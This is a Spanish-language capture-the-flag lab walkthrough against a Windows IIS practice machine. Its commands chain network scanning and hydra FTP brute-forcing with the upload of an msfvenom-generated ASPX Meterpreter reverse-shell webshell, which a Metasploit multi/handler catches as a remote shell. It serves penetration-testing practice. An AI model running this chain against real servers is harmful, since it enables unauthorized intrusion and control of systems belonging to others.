

# Webshell ASPX en Servidor Microsoft IIS – OPCIÓN 2

Maquinas que voy a utilizar Kali Linux y Cocido Andaluz https://thehackerslabs.com/cocido-andaluz/

<aside>
💡

Gran Parte de este documento es examante igual al anterior con el mismo titulo . Pero en este caso vamos a utilizar un archivo malicioso creado con msfvenom para conseguir una intrusión subiéndolo por FTP.

</aside>

Vamos a intentar obtener **intrusión remota** en un servidor Microsoft IIS mediante un **archivo malicioso con extensión aspx**.

```bash
sudo arp-scan -I eth0 --localnet
```


```bash
ping -c 1 10.0.3.19  
```


El **ttl=128** nos informa que es una maquina **Windows.**

```bash
nmap -p- -sS -sV -sC -min-rate=5000 -n -vvv -Pn 10.0.3.19 
```


- Provamos la IP en el navegador
    
    
    
- Hacemos **Fuzzing Web con la herramienta dirb.**
    
    ```bash
    dirb [http://10.0.3.19/](./imagenes/http://10.0.3.19/)
    ```
    
    
    

- Vamos a mirar que puede ser esto.
    
    
    
    Por aquí parece que no vemos nada , lo dejamos en pausa y seguimos intentándolo de otra manera.
    
- Vamos  a ver de nuevo la enumeración que hemos hecho con nmap.
    
    
    
    Vemos que tiene abierto el **puerto 21** con un **servicio ftp**. 
    
- Le vamos a hacer un ataque de fuerza bruta con **hydra** aunque no sepamos el usuario y la contraseña.
    
    ```bash
    hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://10.0.3.19
    ```
    
    
    
    <aside>
    💡
    
    Como vemos estamos usando **distintos diccionarios** para **Usuario** y para **Password**.
    
    </aside>
    

- Con las credenciales que hemos conseguido vamos a entrar por FTP.
    
    **También podríamos probar que no será nuestro caso como login `anonymous` y pass en blanco.**
    
    ```bash
    ftp 10.0.3.19 
    ```
    
    
    
    **En algunos sitios** podemos encontrarnos con que el **contenido del FTP** esta **vinculado** al **contenido del puerto 80** (la pagina Web). Esto lo **podemos utilizar** para **subir archivos** y poder **verlos desde el navegador**.
    
- Vamos a crear un archivo malicioso con msfvenom.
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 PORT 4444 -f aspx -o shell.aspx 
    ```
    
    
    
- Lo subimos al FTP desde el terminal conectado al FTP.
    
    `put shell.aspx`
    
    
    
    <aside>
    💡
    
    ### **Comandos básicos en un FTP**.
    
    1. **Navegación en Directorios:**
        - `ls` o `dir`: Lista los archivos y directorios en el directorio actual.
        - `cd [directorio]`: Cambia al directorio especificado.
        - `pwd`: Muestra el directorio actual.
        - `cd ..`: Retrocede al directorio padre.
    2. **Transferencia de Archivos:**
        - `get [archivo]`: Descarga un archivo desde el servidor al equipo local.
        - `mget [archivos]`: Descarga múltiples archivos a la vez.
        - `put [archivo]`: Sube un archivo desde el equipo local al servidor.
        - `mput [archivos]`: Sube múltiples archivos a la vez.
    3. **Gestión de Archivos:**
        - `delete [archivo]`: Elimina un archivo del servidor.
        - `rename [archivo_antiguo] [archivo_nuevo]`: Cambia el nombre de un archivo en el servidor.
        - `mkdir [directorio]`: Crea un nuevo directorio en el servidor.
        - `rmdir [directorio]`: Elimina un directorio vacío del servidor.
    4. **Opciones Generales:**
        - `quit` o `bye`: Cierra la sesión y desconecta del servidor FTP.
        - `help` o `?`: Muestra ayuda o información sobre comandos disponibles.
    </aside>
    
- Nos ponemos a la escucha con msfconsole (Metssploit)
    
    
    

- Nos ponemos a la escucha con Metasploit con **multi/handler**
    
    `use multi/handler`
    
- Miramos las opciones y completamos lo que necesitemos.
    
    `show options`
    
    `set LHOST 10.0.3.4`
    
    
    

- Ahora tenemos que tener en cuenta un detalle en el archivo malicioso usamos el Payload `windows/meterpreter/reverse_tcp` por tanto debemos cargarlo en el **multi/handler.**
    
    `set PAYLOAD windows/meterpreter/reverse_tcp`
    
    
    
- Vuelvo a ejecutar **show options**, vemos que se nos cargar el payload
    
    `show options`
    
    
    
- Ejecutamos, poniéndonos a la escucha.
    
    `run`
    
    
    
- Nos vamos al navegador y ejecutamos desde hay muestro archivo malicioso **shell.aspx**
    
    
    
- En el Metasploit se nos a abierto una sesión de  meterpreter.
    
    
    
    - Ya que estamos en windows ejecuto una Shell. Para salir de la Shell al Meterpreter escribiremos **exit**.
        
        `shell`
        
        `whoami`
        
        `exit`
        
        